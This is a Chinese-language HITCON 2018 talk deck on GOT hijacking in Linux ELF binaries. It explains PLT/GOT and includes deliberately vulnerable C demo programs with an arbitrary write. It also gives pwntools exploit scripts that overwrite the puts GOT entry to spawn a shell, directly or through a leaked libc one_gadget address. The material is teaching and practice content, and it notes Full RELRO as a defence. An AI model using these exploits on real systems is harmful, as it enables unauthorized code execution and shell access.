

## 從任意寫入到任意執行-

## 深入淺出 Got Hijacking

2018/07/28 HITCON <!-- .element: align="left" -->

DuckLL <!-- .element: align="right" -->

---

# About Me

- Name: 廖子慶
- ID: DuckLL
- Job: Student at NTHU
- Blog: http://www.duckll.tw
- CTF: Pwn, Reversing

<div style="float:right;width:50%;">

 <!-- .element: width="50%" -->

</div>

--

# Outline

1. C in Linux
1. GOT, PLT
1. GOT Hijacking
1. One Gadget
1. Conclusion

---

# 這邊有人不懂 C 嗎?


--

# C 語言小教室

<table style="font-size:1.5em;">
<thead>
<tr>
<th>語法</th>
<th>定義</th>
</tr>
</thead>
<tbody>
<tr>
<td>\*a[]</td>
<td>an array of pointers</td>
</tr>
<tr>
<td>(\*a)[]</td>
<td>a pointer to an array</td>
</tr>
<tr>
<td>\*f()</td>
<td>a function return a pointer</td>
</tr>
<tr>
<td>(\*f)()</td>
<td>a pointer to a function</td>
</tr>
</tbody>
</table>

https://www.cdecl.org/

--

## 你有想過為什麼 puts 會動嗎？

```c
#include <stdio.h>
int main()
{
    puts("Hello World!");
    return 0;
}
```

~~因為有 include stdio.h 阿~~

--

# 看一下 Assembly Code

```
0000000000400400 <puts@plt>:
  400400:       ff 25 12 0c 20 00       jmp    QWORD PTR [rip+0x200c12]        # 601018 <_GLOBAL_OFFSET_TABLE_+0x18>
  400406:       68 00 00 00 00          push   0x0
  40040b:       e9 e0 ff ff ff          jmp    4003f0 <_init+0x28>

0000000000400430 <main>:
  400430:       48 83 ec 08             sub    rsp,0x8
  400434:       bf d4 05 40 00          mov    edi,0x4005d4
  400439:       e8 c2 ff ff ff          call   400400 <puts@plt>
  40043e:       31 c0                   xor    eax,eax
  400440:       48 83 c4 08             add    rsp,0x8
  400444:       c3                      ret
  400445:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40044c:       00 00 00
  40044f:       90                      nop
```

沒有任何實做 puts 的 code

--

# 實做 puts 的是 libc !

- libc 是 Linux 的 C Share Library
- 大部分我們用的是 glibc(GNU C Library)
- 實做很多經常會用到或是跟作業系統相關的 function

--

# Dynamic Link

```
00400000-00401000 r-xp 00000000 00:4f 18625403                           /hitcon/simple
00600000-00601000 r--p 00000000 00:4f 18625403                           /hitcon/simple
00601000-00602000 rw-p 00001000 00:4f 18625403                           /hitcon/simple
7ffff7a0d000-7ffff7bcd000 r-xp 00000000 08:01 1180525                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001c0000 08:01 1180525                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r--p 001c0000 08:01 1180525                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rw-p 001c4000 08:01 1180525                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd3000-7ffff7dd7000 rw-p 00000000 00:00 0
7ffff7dd7000-7ffff7dfd000 r-xp 00000000 08:01 1180505                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7fe7000-7ffff7fea000 rw-p 00000000 00:00 0
7ffff7ff8000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00025000 08:01 1180505                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffd000-7ffff7ffe000 rw-p 00026000 08:01 1180505                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

- 大部分的程式採用這種連結方式
- function 不會編譯進執行檔中
- function 存放在 Share Library 裡
- 載入執行檔時載入 Share Library
- function 在 Share Library 中執行

---

## 執行檔怎麼跳到 Share Library

 <!-- .element: width="65%" -->

--

# PLT

- Procedure Linkage Table
- 位於主程式(.text)之前
- 區段為可讀,可執行(r,x)
- 第一個 plt 是 call dl_runtime_resolve
- 每個外部 function 都有一個對應的 plt
- 每個 plt 都有兩個功能
  - 跳到 GOT 的值 (plt['puts']) <!-- .element: style="color:yellow;" -->
  - 填入 GOT 的值並執行 (plt['puts']+6)

```python
from pwn import *
elf=ELF('./simple')
print(elf.plt)
print(hex(elf.plt['puts']))
print(elf.disasm(elf.plt['puts'],20))
"""
{u'__gmon_start__': 4195360, u'__libc_start_main': 4195344, u'puts': 4195324}

0x4003fc #pwntool不是萬能 應該0x400400才是對的

  4003fc:       0f 1f 40 00             nop    DWORD PTR [rax+0x0]
  400400:       ff 25 12 0c 20 00       jmp    QWORD PTR [rip+0x200c12]        # 0x601018
  400406:       68 00 00 00 00          push   0x0
  40040b:       e9 e0 ff ff ff          jmp    0x4003f0
"""
```

--

# GOT

- Gobal Offset Table
- 位於資料(.data)之前
- 區段為可讀,可寫(r,w)(default RELRO)
- 是一個 function pointer array <!-- .element: style="color:yellow;" -->
- 前三個有特殊用途
  - got[0] = address of .dynamic
  - got[1] = link_map
  - got[2] = dl_runtime_resolve
- 每個外部 function 都有一個對應的 GOT
  - 預設儲存 plt+6 的位置(填入 GOT 並執行)
  - 存放 function 在 libc 的位置 <!-- .element: style="color:yellow;" -->

```python
from pwn import *
elf=ELF('./simple')
print(elf.got)
print(hex(elf.got['puts']))
"""
{u'__libc_start_main': 6295584, u'__gmon_start__': 6295544, u'puts': 6295576}

0x601018
"""
```

--

# 用一段 C code 模擬一下

```c
char libc_puts[]={72, 137, 254, 72, 49, 255, 72, 255, 199, 72, 199, 194, 13, 0, 0, 0, 72, 49, 192, 72, 255, 192, 15, 5, 195}; // puts(write)的實做ASM
int (*got[6])();  // GOT: 一個function pointer array
int plt_puts(){ // PLT: 跳到GOT的值
    got[5]();
}
int plt_puts_6(){ // PLT+6: 填入GOT的值
    got[5]=libc_puts;
}
int main(int argc, char *argv[])
{
    got[5]=plt_puts_6; //GOT預設是plt+6
    plt_puts(); //填入libc_puts的位置到got中
    plt_puts("Hello World!\n"); //執行libc_puts
    return 0;
}
```

```
gcc -z execstack fp.c
./a.out
Hello World!
```

兩個 plt_puts

- plt_puts => plt_puts_6
- plt_puts => libc_puts

---

# 回到 GOT Hijacking

# GOT=function pointer array

## 控制其中一個 element <!-- .element: class="fragment" -->

## => 控制 function pointer <!-- .element: class="fragment" -->

## => 任意執行 <!-- .element: class="fragment" -->

--

# 目標

把 GOT 上的 function pointer 改成特定位置
 <!-- .element: width="65%" -->

--

# 直接上個範例

```c
#include <stdio.h>
#include <stdlib.h>
long long  array[10] = {0};
void goal(){
    system("sh");
}
int main(){
    setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
    int idx;
    while(1){
        printf("index:");
        scanf("%d", &idx);
        printf("value:");
        scanf("%lld", &array[idx]);
        for (int i = 0; i < 10; ++i) {
            printf("%lld ", array[i]);
        }
        puts("");
    }
    return 0;
}
```

這是一個有任意寫入的漏洞程式

--

# Payload

```python
from pwn import *
context.arch = "amd64"

elf = ELF('./demo')
array = elf.symbols['array']
got_puts = elf.got['puts']
goal = elf.symbols['goal']

io = process('./demo')
offset = (got_puts - array) / 8
io.sendlineafter('index:', str(offset))
io.sendlineafter('value:', str(goal))
io.interactive()
```

--

# array=elf.symbols['array']

## 0x601080

 <!-- .element: width="60%" -->

--

# got_puts=elf.got[puts]

## 0x601018

 <!-- .element: width="60%" -->

--

# offset=(got_puts-array)/8

## (0x601018-0x301080)/8=-13

 <!-- .element: width="80%" -->

--

# io.sendlineafter('index:',str(offset))

# io.sendlineafter('value:',str(goal))

 <!-- .element: width="70%" -->

--

# 程式流程

## call puts("");


--

## plt_puts: jmp got_puts

 <!-- .element: width="70%" -->

--

## 執行 goal();


 <!-- .element: width="50%" -->

---

# 如果程式沒有 goal 呢


--

# libc 裡面有! <!-- .element: class="fragment" -->

## 但 libc 不是固定位置需要 leak 跟計算 <!-- .element: class="fragment" -->

--

# One Gadget

https://github.com/david942j/one_gadget

The best tool for finding one gadget RCE in libc.so.6

```
# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

--

# 假設程式會給 libc 位置

```c
#include <stdio.h>
#include <stdlib.h>
long long  array[10] = {0};
int main(){
    setvbuf(stdout,0,2,0);
	setvbuf(stdin,0,2,0);
    int idx;
    long long *p= 0x601028;
    printf("libc['__libc_start_main']:%llx\n", *p);
    while(1){
        printf("index:");
        scanf("%d", &idx);
        printf("value:");
        scanf("%lld", &array[idx]);
        for (int i = 0; i < 10; ++i) {
            printf("%lld ", array[i]);
        }
        puts("");
    }
    return 0;
}
```

--

# Payload

```python
from pwn import *
context.arch = "amd64"

elf = ELF('./leak')
array = elf.symbols['array']
got_puts = elf.got['puts']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget = 0xf1147 # 由one_gadget得到

io = process('./leak')
offset = (got_puts - array) / 8
# 計算libc位置
leak = int(io.recvline().split(":")[-1][:-1], 16)
libc.address = leak - libc.symbols['__libc_start_main']
print(hex(libc.address))
# 計算one_gadget位置
goal = libc.address + one_gadget
io.sendlineafter('index:', str(offset))
io.sendlineafter('value:', str(goal))
io.interactive()
```

--

# DEMO

---

# Conclusion

- Dynamic Link 使用 PLT 來呼叫外部 function
- PLT 是一段跳躍到 GOT 值的 function
- GOT 是一個 function pointer array 用來儲存外部 function 位置
- GOT Hijacking: 改變 GOT 達到控制流程
- libc 裡面有 shell 可以用
- Full RELRO 可以抵擋 GOT Hijacking

--

# Q & A

--

# END

Thank you for listening


Blog
